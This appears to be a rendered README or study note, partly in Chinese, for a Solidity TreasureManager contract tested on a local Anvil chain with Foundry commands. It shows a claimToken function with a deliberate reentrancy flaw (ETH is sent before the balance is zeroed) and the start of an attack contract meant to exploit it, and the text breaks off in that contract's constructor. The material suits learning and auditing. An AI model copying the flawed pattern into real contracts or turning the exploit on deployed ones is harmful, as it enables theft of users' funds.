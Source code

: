 ~~~shell
cast call --rpc-url 127.0.0.1:8545 0x5FC8d32690cc91D4c39d9d3abcBD16989F875707 "queryRewards(address)(uint256)" 0xEeeeeEeeeEeEeeEeEeEeeEEEeeeeEeeeeeeeEEeE --from 0xee2E207D30383430a815390431298EBa3c1C8c2d

# eth balance
cast balance 0xee2E207D30383430a815390431298EBa3c1C8c2d --rpc-url 127.0.0.1:8545

# claim
cast send --rpc-url 127.0.0.1:8545 --private-key 0xc30e09a462d429803c0592db0c52a9cb0bdcbf80fb6cfe3ea351c9fd67e103c1 0x5FC8d32690cc91D4c39d9d3abcBD16989F875707 "claimToken(address)" 0xEeeeeEeeeEeEeeEeEeEeeEEEeeeeEeeeeeeeEEeE

# 判断一个地址是否是合约地址
cast code 0xCe85503De9399D4dECa3c0b2bb3e9e7CFCBf9C6B --rpc-url 127.0.0.1:8545

cast call 0x5FC8d32690cc91D4c39d9d3abcBD16989F875707 --rpc-url 127.0.0.1:8545 "getValue()(uint256)"
```

```
forge script ./script/TreasureManagerV2Script.s.sol:TreasureManagerV2Script --rpc-url 127.0.0.1:8545 --private-key 0xac0974bec39a17e36ba4a6b4d238ff944bacb478cbed5efcae784d7bf4f2ff80 --broadcast
```

### Help

```shell
$ forge --help
$ anvil --help
$ cast --help
```
~~~

- 重入攻击（先状态改变再交易）

```javascript
function claimToken(address tokenAddress) external {
    require(tokenAddress != address(0), "Invalid token address");
    uint256 rewardAmount = userRewardAmounts[msg.sender][tokenAddress];
    require(rewardAmount > 0, "No reward available");
    if (tokenAddress == ethAddress) {
        (bool success, ) = msg.sender.call{value: rewardAmount}("");
        require(success, "ETH transfer failed");
    } else {
        IERC20(tokenAddress).safeTransfer(msg.sender, rewardAmount);
    }
    userRewardAmounts[msg.sender][tokenAddress] = 0; //X
    tokenBalances[tokenAddress] -= rewardAmount; //X
}
```

- 攻击的 POC 

```java
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "../src/TreasureManager.sol";

contract AttackTreasureManager {
    TreasureManager public treasureManager;
    address payable public owner;
    uint256 public attackAmount;

    constructor(address _treasureManager) {
        treasureManager = TreasureManager(payable(_treasureManager));
```